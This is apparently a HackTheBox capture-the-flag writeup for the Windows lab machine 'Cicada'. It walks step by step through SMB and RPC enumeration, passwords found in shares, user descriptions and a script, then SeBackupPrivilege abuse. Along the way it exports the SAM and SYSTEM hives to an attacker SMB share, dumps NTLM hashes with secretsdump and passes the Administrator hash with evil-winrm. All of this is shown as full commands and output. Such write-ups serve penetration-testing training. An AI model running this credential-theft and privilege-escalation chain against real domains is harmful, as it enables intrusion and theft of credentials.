



# Cicada - HackTheBox - Writeup
Windows, 20 Base Points, Easy



## Machine


 
## TL;DR

**User**: Found notes with a password in `HR` share, using `lookupsid` to enumerate users and found the password matches the `michael.wrightson` user. Used `rpcclient` to enumerate users and found the password of `david.orelious` in the `Description` user attribute.

**Root**: Found that we have `SeBackupPrivilege`, using it to save `SAM` and `SYSTEM`. Used `secretsdump` to get the `Administrator` hash.




## Cicada Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ nmap -sV -sC -oA nmap/Cicada 10.10.11.35
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-16 23:01 IST
Nmap scan report for 10.10.11.35
Host is up (0.071s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-17 04:01:54Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m53s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-17T04:02:38
|_  start_date: N/A


```

Observing the SMB shares, we can see the following:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ smbclient -L 10.10.11.35 -U Guest
Password for [WORKGROUP\Guest]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

By observing the `HR` share, we found the file `Notice from HR.txt` with the following content:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ smbclient //10.10.11.35/HR -U Guest
Password for [WORKGROUP\Guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 14:29:09 2024
  ..                                  D        0  Thu Mar 14 14:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 20:31:48 2024

		4168447 blocks of size 4096. 403635 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (4.4 KiloBytes/sec) (average 4.4 KiloBytes/sec)
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ at Notice\ from\ HR.txt 

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

We now have the password `Cicada$M6Corpb*@Lp#nZp!8`. Next, we need to enumerate users. We can use `lookupsid` for this purpose: 
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ lookupsid.py guest@10.10.11.35 -no-pass
Impacket v0.10.1.dev1+20230223.202738.f4b848fa - Copyright 2022 Fortra

[*] Brute forcing SIDs at 10.10.11.35
[*] StringBinding ncacn_np:10.10.11.35[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CICADA\Administrator (SidTypeUser)
501: CICADA\Guest (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
512: CICADA\Domain Admins (SidTypeGroup)
513: CICADA\Domain Users (SidTypeGroup)
514: CICADA\Domain Guests (SidTypeGroup)
515: CICADA\Domain Computers (SidTypeGroup)
516: CICADA\Domain Controllers (SidTypeGroup)
517: CICADA\Cert Publishers (SidTypeAlias)
518: CICADA\Schema Admins (SidTypeGroup)
519: CICADA\Enterprise Admins (SidTypeGroup)
520: CICADA\Group Policy Creator Owners (SidTypeGroup)
521: CICADA\Read-only Domain Controllers (SidTypeGroup)
522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
525: CICADA\Protected Users (SidTypeGroup)
526: CICADA\Key Admins (SidTypeGroup)
527: CICADA\Enterprise Key Admins (SidTypeGroup)
553: CICADA\RAS and IAS Servers (SidTypeAlias)
571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
1000: CICADA\CICADA-DC$ (SidTypeUser)
1101: CICADA\DnsAdmins (SidTypeAlias)
1102: CICADA\DnsUpdateProxy (SidTypeGroup)
1103: CICADA\Groups (SidTypeGroup)
1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1109: CICADA\Dev Support (SidTypeGroup)
1601: CICADA\emily.oscars (SidTypeUser)
```

As seen, there are a few users listed:
```console
CICADA\john.smoulder
CICADA\sarah.dantelia
CICADA\michael.wrightson
CICADA\david.orelious 
CICADA\emily.oscars
```

By testing the password with `rpcclient`, we found that it matches the user `CICADA\michael.wrightson`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ rpcclient 10.10.11.35 -W cicada -U michael.wrightson
Password for [CICADA\michael.wrightson]:
rpcclient $> 

```

Now, we can enumerate the users and retrieve their information:
```console
rpcclient $> enumdomusers 
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[john.smoulder] rid:[0x450]
user:[sarah.dantelia] rid:[0x451]
user:[michael.wrightson] rid:[0x452]
user:[david.orelious] rid:[0x454]
user:[emily.oscars] rid:[0x641]
```

By enumerating the user `david.orelious`, we found the password `aRt$Lp#7t*VQ!3` in the `Description` attribute:
```console
rpcclient $> queryuser david.orelious
	User Name   :	david.orelious
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	Just in case I forget my password is aRt$Lp#7t*VQ!3
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Fri, 15 Mar 2024 08:32:22 IST
	Logoff Time              :	Thu, 01 Jan 1970 02:00:00 IST
	Kickoff Time             :	Thu, 14 Sep 30828 05:48:05 IDT
	Password last set Time   :	Thu, 14 Mar 2024 14:17:30 IST
	Password can change Time :	Fri, 15 Mar 2024 14:17:30 IST
	Password must change Time:	Thu, 14 Sep 30828 05:48:05 IDT
	unknown_2[0..31]...
	user_rid :	0x454
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000001
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...

```

Let's use these credentials to gain access to the `DEV` share:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ smbclient //10.10.11.35/DEV -W cicada -U david.orelious
Password for [CICADA\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 14:31:39 2024
  ..                                  D        0  Thu Mar 14 14:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 20:28:22 2024

		4168447 blocks of size 4096. 404245 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (2.1 KiloBytes/sec) (average 2.1 KiloBytes/sec)
```

Let's examine `get Backup_script.ps1`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ cat get Backup_script.ps1
cat: get: No such file or directory

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```

We can see the password for `emily.oscars` as `Q!3@Lp#M6b*7t*Vt`. Let's use this to gain access to `C$`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ smbclient //10.10.11.35/C$ -W cicada -U emily.oscars
Password for [CICADA\emily.oscars]:
Try "help" to get a list of possible commands.
smb: \> dir
  $Recycle.Bin                      DHS        0  Thu Mar 14 15:24:03 2024
  $WinREAgent                        DH        0  Mon Sep 23 19:16:49 2024
  Documents and Settings          DHSrn        0  Thu Mar 14 21:40:47 2024
  DumpStack.log.tmp                 AHS    12288  Sat Nov 16 05:38:42 2024
  pagefile.sys                      AHS 738197504  Sat Nov 16 05:38:42 2024
  PerfLogs                            D        0  Thu Aug 22 21:45:54 2024
  Program Files                      DR        0  Thu Aug 29 22:32:50 2024
  Program Files (x86)                 D        0  Sat May  8 12:40:21 2021
  ProgramData                       DHn        0  Fri Aug 30 20:32:07 2024
  Recovery                         DHSn        0  Thu Mar 14 21:41:18 2024
  Shares                              D        0  Thu Mar 14 14:21:29 2024
  System Volume Information         DHS        0  Thu Mar 14 13:18:00 2024
  Users                              DR        0  Mon Aug 26 23:11:25 2024
  Windows                             D        0  Mon Sep 23 19:35:40 2024

		4168447 blocks of size 4096. 404229 blocks available
smb: \> cd users
dsmb: \users\> dir
  .                                  DR        0  Mon Aug 26 23:11:25 2024
  ..                                DHS        0  Mon Sep 23 19:52:48 2024
  Administrator                       D        0  Mon Aug 26 23:10:38 2024
  All Users                       DHSrn        0  Sat May  8 11:34:03 2021
  Default                           DHR        0  Thu Mar 14 21:40:47 2024
  Default User                    DHSrn        0  Sat May  8 11:34:03 2021
  desktop.ini                       AHS      174  Sat May  8 11:18:31 2021
  emily.oscars.CICADA                 D        0  Fri Aug 23 00:22:13 2024
  Public                             DR        0  Thu Mar 14 12:45:15 2024

		4168447 blocks of size 4096. 404233 blocks available
smb: \users\> cd emily.oscars.CICADA\
smb: \users\emily.oscars.CICADA\> cd desktop
smb: \users\emily.oscars.CICADA\desktop\> get user.txt
getting file \users\emily.oscars.CICADA\desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)

```

And we get the user flag `f16fa9af51fe0b58f3215bc8770f1e14`.

### Root

Let's use the credentials with `evil-winrm` to gain access:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
Enter Password: 

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```

By running `whoami /priv`, we can see the following privileges:
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

We can see that we have the `SeBackupPrivilege`.

The `SeBackupPrivilege` is a Windows privilege that allows a user or process to read files and directories, regardless of the security settings on those objects. This privilege is often used by backup programs or processes that need to copy files that would otherwise be inaccessible to the user ([Reference](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md#exploitation)).

We can leverage this privilege to save the `SAM` and `SYSTEM` files.

The `SAM` and `SYSTEM` files are critical Windows registry files (hive files) that store important information about user accounts, passwords, and system settings.

- The `SAM` file contains a database of local user accounts, including password hashes.
- The `SYSTEM` file holds system configuration details, such as hardware settings, and more importantly, the encryption keys used to protect the password hashes stored in the `SAM` file.

To retrieve these files, we can use [Impacket’s reg.py](https://github.com/fortra/impacket/blob/master/examples/reg.py).

First, we need to open a share:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ sudo smbserver.py -smb2support "someshare" "./"
[sudo] password for evyatar9: 
Impacket v0.10.1.dev1+20230223.202738.f4b848fa - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now, we can retrieve the `SAM` and `SYSTEM` files:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ reg.py 'CICADA.htb/emily.oscars:Q!3@Lp#M6b*7t*Vt@10.10.11.35' save -keyName 'HKLM\SAM' -o '\\10.10.14.14\someshare'
Impacket v0.10.1.dev1+20230223.202738.f4b848fa - Copyright 2022 Fortra

[!] Cannot check RemoteRegistry status. Hoping it is started...
[*] Saved HKLM\SAM to \\10.10.14.14\someshare\SAM.save
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ reg.py 'CICADA.htb/emily.oscars:Q!3@Lp#M6b*7t*Vt@10.10.11.35' save -keyName 'HKLM\SYSTEM' -o '\\10.10.14.14\someshare'
Impacket v0.10.1.dev1+20230223.202738.f4b848fa - Copyright 2022 Fortra

[!] Cannot check RemoteRegistry status. Hoping it is started...
[*] Saved HKLM\SYSTEM to \\10.10.14.14\someshare\SYSTEM.save

```

Now, we can use [Impacket's secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) to extract the NTLM hashes:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ secretsdump.py -sam '/hackthebox/Cicada/SAM.save' -system '/hackthebox/Cicada/SYSTEM.save' LOCAL
Impacket v0.10.1.dev1+20230223.202738.f4b848fa - Copyright 2022 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

We have obtained the `Administrator` hash. Let's use it to gain further access:
```console
┌─[evyatar9@parrot]─[/hackthebox/Cicada]
└──╼ $ evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
a180aba56d46c9bfc8455281fc9094c1

```

And we get the root flag `a180aba56d46c9bfc8455281fc9094c1`.